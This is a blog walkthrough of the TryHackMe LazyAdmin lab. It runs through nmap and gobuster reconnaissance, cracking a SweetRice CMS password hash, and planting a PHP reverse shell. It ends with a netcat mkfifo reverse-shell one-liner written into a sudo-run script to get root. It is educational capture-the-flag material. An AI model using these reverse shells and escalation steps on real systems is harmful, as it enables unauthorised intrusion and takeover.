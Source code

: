 ### TryHackMe Walkthrough: LazyAdmin

<div id="copyUrl"></div>

In this blog post, I'll walk you through my experience tackling the <a href="https://tryhackme.com/r/room/lazyadmin" target="_blank">TryHackMe LazyAdmin</a> room. It's an engaging challenge that will take us from reconnaissance to gaining root access. If you're eager to learn about network scanning, password cracking, and privilege escalation, read on!

To kick things off, I connected to the TryHackMe network using OpenVPN on my Kali virtual machine. With the target machine up and running, I started with an **_Nmap_** scan to identify open ports and services:

<pre class="bg-body-tertiary border p-2 shadow-sm">nmap -sV -vv &lt;remote-ip&gt;</pre>

The scan revealed two open ports: SSH (22) and HTTP (80).

Navigating to the website's homepage, I found the default Apache login page with nothing of interest in the source pre. To uncover any hidden directories, I ran a **_Gobuster_** scan using the common.txt wordlist:

<pre class="bg-body-tertiary border p-2 shadow-sm">gobuster dir -u http://&lt;remote-ip&gt; -w /usr/share/wordlists/dirb/common.txt</pre>

This scan unveiled a few directories, with `/content` catching my eye. Inside, I discovered the installation page for a CMS called SweetRice.

To find more hidden gems, I ran another **_Gobuster_** scan within the `/content` directory:

<pre class="bg-body-tertiary border p-2 shadow-sm">gobuster dir -u http://&lt;remote-ip&gt;/content -w /usr/share/wordlists/dirb/common.txt</pre>

This revealed additional directories, including `/as` (a login page) and `/inc` (holding some promising files). Among these, the `mysql_backup` directory contained a backup file, which I promptly downloaded.

Inside the backup file, I found an MD5 hashed password. To crack it, I used **_hashcat_** with the rockyou.txt wordlist:

<pre class="bg-body-tertiary border p-2 shadow-sm">hashcat -m 0 pash /usr/share/wordlists/rockyou.txt</pre>

Within moments, I had the password in plain text.

With the cracked password, I logged into the SweetRice admin panel. From here, I needed to leverage my access to get a reverse shell. I found an Ads page where I could inject a **_PHP reverse shell_** from PentestMonkey. After replacing the IP and port with my own, I saved it.

I started a Netcat listener on my machine to catch the reverse shell:

<pre class="bg-body-tertiary border p-2 shadow-sm">rlwrap nc -lvnp 4444</pre>

Navigating to the shell file in the `/inc/ads` directory executed my shell, and my listener caught it. I upgraded my shell using Python for better interaction:

<pre class="bg-body-tertiary border p-2 shadow-sm">python -c 'import pty; pty.spawn("/bin/bash")'</pre>

Listing the users on the machine, I found a user named _itguy_ and accessed their directory to retrieve the user flag.

To escalate privileges, I listed my sudo permissions:

<pre class="bg-body-tertiary border p-2 shadow-sm">sudo -l</pre>

I could run a Perl script called `backup.pl`, which in turn executed `copy.sh`. This copy.sh script contained a reverse shell, and I replaced its IP and port with my own using echo:

<pre class="bg-body-tertiary border p-2 shadow-sm">echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your IP> 4444 >/tmp/f' > /etc/copy.sh</pre>

After starting another Netcat listener, I executed the Perl script:

<pre class="bg-body-tertiary border p-2 shadow-sm">sudo /usr/bin/perl /home/itguy/backup.pl</pre>

My listener caught the shell, and I had root access. I navigated to the root directory and retrieved the root flag.

Lessons Learned:

- Always look for publicly accessible directories and files.
- Check for scripts executable by sudo for privilege escalation.

The LazyAdmin room was a thrilling experience that tested my skills in various aspects of cybersecurity. From initial access through backup file exploitation to escalating privileges using a cleverly placed script, it was a comprehensive exercise.

If you enjoyed this walkthrough or have any questions, feel free to reach out. Happy hacking!

For more insights and detailed explorations into the world of cybersecurity, visit [CipherVoyage](https://vickie-ks.github.io/CipherVoyage/) and stay updated with the latest in cyber defense strategies.

_Author: <a href="https://github.com/vickie-ks" target="_blank">vickie-ks</a>_
